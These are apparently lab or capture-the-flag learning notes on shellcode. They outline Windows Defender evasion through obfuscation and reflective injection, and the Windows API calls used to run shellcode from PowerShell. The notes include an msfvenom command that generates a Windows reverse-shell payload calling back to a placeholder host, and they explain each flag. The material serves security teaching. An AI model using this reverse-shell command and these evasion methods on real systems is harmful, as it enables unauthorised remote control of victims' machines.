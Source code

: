 - **Windows Defender**: A built-in security feature that detects and prevents malicious scripts, including PowerShell-based attacks, by scanning code at runtime. Common bypass methods for evading Defender include **obfuscating scripts** to disguise malicious content, making it harder for the software to recognise known patterns. Another technique is a **reflective injection**, where malicious code is loaded directly into memory, avoiding detection by signature-based defences.  

- **Windows API**: The Windows Application Programming Interface (**API**) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves **as a bridge between the application and the operating system**, enabling efficient resource handling. The Windows **API** is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute **shellcodes**. Common Windows **API** functions frequently used by malicious actors include:
   `VirtualAlloc`, 
   `CreateThread` and
	`WaitForSingleObject`
	which we will also use in this task for exploitation.

- **Accessing Windows API through PowerShell Reflection**: Windows **API** via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows **API** from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.

- **Reverse shell**: A type of connection in which the target (the machine you're trying to hack) initiates a connection back to your attacking machine.
  ![[62a7685ca6e7ce005d3f3afe-1728375153734.png]]
  ---
## Generating Shellcode
Let's learn how to generate a shellcode to see what it looks like. To do this, we can use a tool called `msfvenom` to get a reverse shell.  

In your VM, open the terminal and enter the command
 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=VM_IP LPORT=1111 -f powershell` 
 that will generate the shellcode. The output will look like the following.  
> **NOTE**: You will require to replace the `VM_IP` with the IP of your VM:

![[Pasted image 20241215155644.png]]

The above command generates a piece of shellcode, here's what each part means:
1.  `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
2.  `LHOST=ATTACKBOX_IP`: This is the IP address of your VM. It tells the reverse shell where to connect back to.
3. `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
4. `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.
---
### Where is the Actual Shellcode?
The actual shellcode in the output above is the **hex-encoded byte array**, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead.
